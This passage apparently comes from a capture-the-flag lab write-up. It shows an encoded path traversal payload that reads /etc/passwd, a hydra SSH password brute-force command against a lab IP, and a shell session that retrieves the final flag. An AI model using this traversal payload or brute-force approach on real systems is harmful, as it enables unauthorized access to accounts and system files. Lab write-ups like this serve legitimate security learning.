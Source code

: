 And we find that's this one worked :

`....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd`

![[Pasted image 20250324201107.png]]

We find joshua and charles.

Let's try to #bruteForce the passwords.

```BASH
hydra -l <USER> -P /usr/share/wordlists/fasttrack.txt ssh://10.10.247.254
```

charles and joshua have both `123456`

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

```BASH
charles@filepath:~$ ls
charles@filepath:~$ pwd
/home/charles
charles@filepath:~$ ls /var/www/html/
505eb0fb8a9f32853b4d955e1f9123ea.txt  auth.php       index.php  logout.php   templates
api.php                               dashboard.php  login.php  profile.php  uploads
charles@filepath:~$ cat /var/www/html/505eb0fb8a9f32853b4d955e1f9123ea.txt 
THM{505eb0fb8a9f32853b4d955e1f9123ea}
```

There's our last flag.